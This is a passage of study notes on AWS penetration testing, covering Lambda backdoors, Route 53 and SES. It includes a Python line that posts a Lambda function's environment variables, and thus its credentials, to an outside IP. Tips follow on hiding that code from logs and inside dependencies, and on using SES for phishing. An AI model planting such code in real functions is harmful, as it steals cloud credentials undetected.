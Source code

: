 				},
				&quot;ArnLike&quot;: {
					&quot;AWS:SourceArn&quot;: &quot;arn:aws:s3:::bucket-for-lambda-pentesting&quot;
				}
			}
		}
	]
}</code></pre><ul id="4c159e18-5319-4d51-9cdc-c88c97d74934" class="bulleted-list"><li style="list-style-type:circle">note that not all Lambda functions have a resource policy</li></ul></li></ul><ul id="4db55c44-57d3-4c3c-a260-ac7515d466ec" class="bulleted-list"><li style="list-style-type:disc">default execution timeout for function is three seconds</li></ul>
<h2 id="bf7b4a28-7320-41d9-8951-9fe961258311" class="">Lambda Malicious Code</h2><ul id="fd53fa4c-bcef-46a6-b7ed-b3623db0090e" class="bulleted-list"><li style="list-style-type:disc">Python <code>requests</code>library not one of the default Lambda libraries, but this can be imported via the <code>botocore</code> package<ul id="4556588f-f13c-4ae8-abaf-e21a3a7fe9e9" class="bulleted-list"><li style="list-style-type:circle"><code>from botocore.vendored import requests</code><pre id="4a6c8c45-9a9d-4da7-9cd9-a58c1139be28" class="code"><code>from botocore.vendored import requests
requests.post(&#x27;http://1.1.1.1&#x27;, json=os.environ.copy(), timeout=0.01)
</code></pre></li></ul></li></ul><ul id="a4af4357-5c86-489d-89f4-17457414356c" class="bulleted-list"><li style="list-style-type:disc">ensure the malicious code is wrapped in a <code>try</code> and <code>except</code> to avoid errors from showing up in the logs</li></ul><ul id="eceacc68-8962-42e7-bccb-e75981433c1e" class="bulleted-list"><li style="list-style-type:disc">be aware of the Lambda function’s timeout </li></ul><ul id="5275ce82-3d6a-49e1-b8d9-43e672886223" class="bulleted-list"><li style="list-style-type:disc">it is much better and stealthier to insert malicious code into the function’s used dependencies, rather than to the function’s code itself<ul id="ba2846f0-ea2a-4cf2-887d-da2ec68bd876" class="bulleted-list"><li style="list-style-type:circle">export Lambda function to .zip file, and then reupload it with modified dependencie</li></ul><p id="98156df3-e30f-40d9-9598-b71658c2d621" class="">
</p></li></ul>
<h1 id="5022f87c-d43a-44f2-8b49-857db225c5d1" class="">Chapter 14: Targeting Other Services</h1><ul id="e7cfb4e1-94aa-4947-90d4-fd9fae23c561" class="bulleted-list"><li style="list-style-type:disc">exploitation of Route 53, Simple Email Service (SES), CloudFOrmation, and Elastic Container Registry (ECR)</li></ul>
<h2 id="1ec2c8fe-c487-4f86-9df9-88687e4f5775" class="">Route 53</h2><ul id="0d1f363d-63a8-46e5-92ed-2849ceba5a4d" class="bulleted-list"><li style="list-style-type:disc">route 53 is a scalable DNS/domain management service</li></ul><ul id="7fa3ad67-c93e-4d7a-8909-4fe291fd830e" class="bulleted-list"><li style="list-style-type:disc">good to use for recon<ul id="04c111d0-df0b-4304-a4e1-3a4c5cecdc0e" class="bulleted-list"><li style="list-style-type:circle">allows association of IPs and host names, </li></ul><ul id="e8a3b8ac-500f-4564-8d88-78ba9b4d17b3" class="bulleted-list"><li style="list-style-type:circle">can discover domains and sub-domains</li></ul></li></ul><ul id="affe9b31-96f8-4aa5-92ae-2195db793906" class="bulleted-list"><li style="list-style-type:disc">other than for recon, Route53 is not useful for pentesters (too disruptive)</li></ul>
<h3 id="4986a9c7-dc27-432b-a690-04d74da4653f" class="">How Malicious Attackers Exploit Route53</h3><ul id="a99121b0-d7ee-4897-8678-3639d3f6f9ee" class="bulleted-list"><li style="list-style-type:disc">change DNS records to point to their web server</li></ul><ul id="0b84aff3-61b8-4c54-bae6-83e75a093b99" class="bulleted-list"><li style="list-style-type:disc">route DNS queries between different networks and VPC<ul id="d4dbf755-5cf1-47e9-8658-18b4d2781adc" class="bulleted-list"><li style="list-style-type:circle">can provide insight into other networks not hosted within AWS, or can give insight into other services within VPCs</li></ul></li></ul>
<h2 id="83de59df-0f89-48a0-a908-4b4225ca6bf1" class="">Simple Email Service (SES)</h2><ul id="8b011a46-5233-4fe3-af06-8f7e87a4259e" class="bulleted-list"><li style="list-style-type:disc">good to use for phishing </li></ul><ul id="f1aaa724-a256-457d-acdc-94ef41c0bef2" class="bulleted-list"><li style="list-style-type:disc">if a policy is attached to an SES identity, then it has restrictions<ul id="d1819445-83a7-4e67-86ce-e5bf521f83cc" class="bulleted-list"><li style="list-style-type:circle">permissive SES identities do not have any policies attached to them</li></ul><ul id="37eab232-d861-4e79-8b59-486963373c66" class="bulleted-list"><li style="list-style-type:circle"><code>aws ses list-identity-policies --identity test@test.com</code></li></ul></li></ul><ul id="3aff38db-3542-45fe-a4cc-c64bd957cd32" class="bulleted-list"><li style="list-style-type:disc">to get a policy, you can use <code>aws ses get-identity-policies --identity &lt;IDENTITY&gt; --policy-name &lt;POLICY&gt;</code><ul id="8b746403-6cbc-49e1-afc0-f6565d26f786" class="bulleted-list"><li style="list-style-type:circle">example output:</li></ul><pre id="d4a673da-c421-4f53-a8ed-24138d89db62" class="code"><code>{
	&quot;Version&quot;: &quot;2008-10-17&quot;,
	&quot;Statement&quot;: [
		{